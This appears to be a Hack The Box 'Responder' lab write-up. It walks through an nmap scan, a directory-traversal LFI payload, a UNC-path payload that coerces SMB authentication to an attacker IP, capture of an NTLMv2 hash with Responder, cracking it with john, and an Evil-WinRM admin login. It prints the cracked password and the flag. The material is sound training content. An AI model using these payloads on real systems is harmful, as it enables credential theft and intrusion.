





# Hack The Box — Responder

## Initial Enumeration

An initial TCP port scan was performed against the target machine to identify exposed services.

### Command

```bash
nmap -sV -sC -O -T4 10.129.95.234
```

### Results

The scan revealed two open ports:

- **80/tcp** — Apache httpd 2.4.52 (Win64) with PHP 8.1.1  
- **5985/tcp** — Microsoft HTTPAPI 2.0 (WinRM)

The presence of Apache with PHP indicates a hosted web application.  
Port 5985 suggests that **WinRM (Windows Remote Management)** is enabled.

Service fingerprints and SMB behavior strongly indicate the target is running a Windows-based operating system.



---

## Web Enumeration

Browsing to port 80 revealed a redirect to:

```
http://unika.htb/
```

Since the hostname was not resolvable within the VPN environment, it was added manually to `/etc/hosts`.

### Hosts File Entry

```
10.129.95.234    unika.htb
```

After updating the hosts file, the website became accessible.


---

## Local File Inclusion (LFI)

During analysis of the web application, it was observed that the `page` parameter dynamically includes files:

```
/index.php?page=french.html
```

This behavior suggested a potential Local File Inclusion vulnerability.

### LFI Test

The following payload was used to test directory traversal:

```
http://unika.htb/index.php?page=../../../../../../../../windows/win.ini
```

The application returned the contents of `win.ini`, confirming:

- The presence of an LFI vulnerability  
- The underlying system is Windows  

Linux-specific file attempts such as `/etc/passwd` failed, further confirming the Windows environment.

---

## Exploitation — NTLMv2 Hash Capture

Since the target is a Windows system, UNC paths can be leveraged to force authentication over SMB.

By injecting a UNC path through the LFI vulnerability, the server can be coerced into authenticating to an attacker-controlled SMB server.

### Step 1 — Start Responder

Responder was launched on the VPN interface:

```bash
sudo responder -I tun0
```

### Step 2 — Trigger SMB Authentication

The following payload was used:

```
http://unika.htb/index.php?page=\\10.10.15.58\share
```

This forced the target to initiate an SMB authentication request to the attacker machine.

### Result — NTLMv2 Hash Captured

Responder captured the following NTLMv2 hash:

```
Administrator::RESPONDER:1ac3b6dec9fe9509:23A9D3C50BE9CC81802F9267461CAA81:010100000000000000884C55839CDC012837262B7D78B46300000000020008004D0037003800500001001E00570049004E002D00300031004E003400520049003700370054005900570004003400570049004E002D00300031004E00340052004900370037005400590057002E004D003700380050002E004C004F00430041004C00030014004D003700380050002E004C004F00430041004C00050014004D003700380050002E004C004F00430041004C000700080000884C55839CDC0106000400020000000800300030000000000000000100000000200000D04E9CEC97373A071E03D368F2F9518CCC62B462C6F293728A45710A2097CF060A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310035002E00350038000000000000000000
```

This confirms successful credential capture via forced SMB authentication.



---

## NTLMv2 Hash Cracking

The captured hash was saved to a file:

```bash
cat hash.txt
```

A dictionary attack was performed using `rockyou.txt`:

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

### Result

```
badminton        (Administrator)
```

The password for the `Administrator` account was successfully recovered:

```
badminton
```



---

## Initial Access — WinRM

Since WinRM (port 5985) was exposed and valid credentials were obtained, remote access was attempted using Evil-WinRM.

### Command

```bash
evil-winrm -i 10.129.95.234 -u Administrator -p badminton
```

### Result

```
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

Successful authentication confirms administrative access to the target system.



---

## Flag Retrieval

A recursive search was performed to locate the flag file:

```powershell
Get-ChildItem -Path C:\ -Filter flag.txt -Recurse -ErrorAction SilentlyContinue
```

The flag was found at:

```
C:\Users\mike\Desktop\flag.txt
```

The contents were retrieved using:

```powershell
cat C:\Users\mike\Desktop\flag.txt
```

### Final Flag

```
ea81b7afddd03efaa0945333ed147fac
```



---

## Attack Chain Summary

This machine demonstrates a complete credential attack chain:

1. Service enumeration
2. Local File Inclusion discovery
3. Forced SMB authentication
4. NTLMv2 hash capture
5. Offline password cracking
6. Credential reuse via WinRM
7. Administrative access and flag retrieval

---

## Security Lessons Learned

- Local File Inclusion vulnerabilities can lead to credential exposure.
- NTLM authentication can be abused through coerced SMB connections.
- Weak passwords enable successful offline cracking.
- Exposed WinRM services significantly increase attack surface.
- Credential reuse can result in full system compromise.

---

